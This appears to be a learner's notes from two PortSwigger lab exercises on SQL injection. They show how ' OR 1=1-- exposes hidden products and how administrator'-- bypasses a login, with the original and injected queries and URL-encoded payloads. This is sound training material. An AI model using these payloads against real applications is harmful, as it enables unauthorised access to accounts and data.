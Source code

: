 # SQL Injections

## Where clause allowing retrieval of data

A SQL injection may start with ' or at least in the burp suite labs the single quote is required.

The where statement is executed succesfully, after injecting the payload the released flag is ignored; this returns all of the products regardless of its' release status.

Code:
`SELECT * FROM products WHERE category = 'Gifts' AND released = 1` 
`SELECT * FROM products WHERE category = 'Gifts' OR 1=1--' AND released = 1`

Payload:
`filter?category=Gifts'+OR+1=1--`
'+OR+1=1--

Credit:
[SQL retrieve data](https://portswigger.net/web-security/sql-injection/lab-retrieve-hidden-data)

## Login bypass
Explantation:
This payload is a more simple to understand. The username and password are used as variables in the SQL query. If an application does not validiate/sanitize the input an attacker can inject their own SQL and bypass. We bypass the login by removing the password requirement.

Code:
`SELECT * FROM users WHERE username = 'wiener' AND password = 'bluecheese'`
`SELECT * FROM users WHERE username = 'administrator'--' AND password = ''`
Payload:
`username=administrator%27--&password=hello`
Username field = "adminstrator'--"
[SQL Login bypass](https://portswigger.net/web-security/sql-injection/lab-login-bypass)
